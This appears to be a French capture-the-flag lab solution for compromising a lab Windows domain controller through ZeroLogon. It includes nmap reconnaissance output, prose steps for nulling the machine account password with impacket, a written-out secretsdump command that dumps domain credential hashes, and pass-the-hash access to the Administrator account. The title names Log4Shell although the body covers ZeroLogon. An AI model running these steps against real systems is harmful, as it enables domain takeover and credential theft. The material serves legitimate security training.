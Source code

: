 # Ce fichier a but pour de donner la solution du TP 'Red_Log4Shell'
# Les adresse IP ne sont pas forcément identiques.
# Cette solution sera en 4 parties :
## Partie   I : Reconnaissance
`$ sudo nmap -sP 192.168.160.0/24`
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-02 18:57 CEST
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.160.2
Host is up (0.00043s latency).
MAC Address: 00:50:56:EB:76:AD (VMware)
Nmap scan report for 192.168.160.205
Host is up (0.0012s latency).
MAC Address: 00:50:56:F6:D4:70 (VMware)
Nmap scan report for 192.168.160.128
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.17 seconds
```

`$ sudo nmap -sS -sV -p- 192.168.160.205`
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-02 19:00 CEST
Nmap scan report for 192.168.160.205
Host is up (0.00079s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-07-02 17:02:27Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: RedBlue.lab, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: RBLAB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: RedBlue.lab, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49682/tcp open  msrpc        Microsoft Windows RPC
49694/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:DF:90:AC (VMware)
Service Info: Host: WIN-KSJNGF0GUAR; OS: Windows; CPE: cpe:/o:microsoft:windows
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.24 seconds
```

## Partie   II : Exploration
Nous remarquons qu’il s’agit d’un serveur Windows, nous récupérons quelques informations comme le domaine, le workgroup et le nom d’hôte.
Malheureusement, il n’y a pas plus d’informations, et tous les services exécutés sont des services normaux à Windows. Il va donc falloir tous les tester afin de vérifier si un des services n’est pas vulnérable.
Ici, le nom du défi nous permet de savoir que c’est la vulnérabilité ZeroLogon qui peut être exploitable.

Commençons donc par réaliser un programme python pour déterminer si l’attaque est possible. Pour ce faire, il faut tester s’il est possible de s’authentifier sans le mot de passe.
L’outil impacket peut se révéler très utile et la documentation Microsoft aussi.
Pour s’authentifier deux fonctions Microsoft sont utilisées, la première est NetrServerReqChallenge et la deuxième est NetrServerAuthenticate3.

Pour installer impacket, exécuter les commandes suivantes :
```
python3 -m pip install virtualenv
python3 -m virtualenv impacketEnv
source impacketEnv/bin/activate
pip install git+https://github.com/SecureAuthCorp/impacket
```
Puis exécuter le programme 'script_detection_zerologon.py'

En exécutant ce programme, on détermine que l’attaque ZeroLogon est réalisable.

## Partie   IV : Exploitation
Procédons maintenant à l’authentification puis au changement de mot de passe.
Les deux fonctions précédentes sont nécessaires mais il faut ajouter la fonction NetrServerPasswordSet2.

Puis exécuter le programme 'exploitation_zerologon.py'

En exécutant ce programme, le mot de passe du compte WIN-KSJNGF0GUAR$, donc le compte machine, est nul.
Il est maintenant possible d’utiliser le programme "secretdump.py" fourni par l’outil impacket. <br>
`$ python3 impacketEnv/bin/secretsdump.py -no-pass -just-dc WIN-KSJNGF0GUAR\$@192.168.160.205`

![Capture d'écran de la sortie de secretdump.py](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/secretdump_output.png)

On récupère le condensat du compte Administrateur. Avec celui-ci, on se connecte à la machine distante avec le programme vmiexec.py fournit par "impacket". On obtient alors le drapeau administrateur qui se trouve à la racine. <br>
![Capture d'écran de la connexion WinRM](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/connexion_winrm.png)

## Partie   V : Post-Exploitation
Il faut maintenant remettre l’ancien mot de passe du compte machine. Pour cela, si on exécute le programme "secretdump.py" avec le compte Administrateur, on obtient aussi les condensats LSA où se trouve l’ancien mot de passe du compte machine. <br>
![Capture d'écran de la sortie de secretdump.py](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/ancien_mot_de_passe.png)

Pour créer un programme python qui remet l’ancien mot de passe, il sera encore une fois nécessaire d’utiliser les fonctions "NetrServerReqChallenge" et la deuxième est "NetrServerAuthenticate3". Et la dernière fonction nécessaire est "NetrServerPasswordSet" mais elle n’est pas définie dans l’outil "impacket", il va donc falloir la créer.

Puis exécuter le programme 'retablissement_password.py'

Pour vérifier si le mot de passe a été remis correctement, il est possible de relancer le programme "secretdump.py" avec le compte Administrateur.
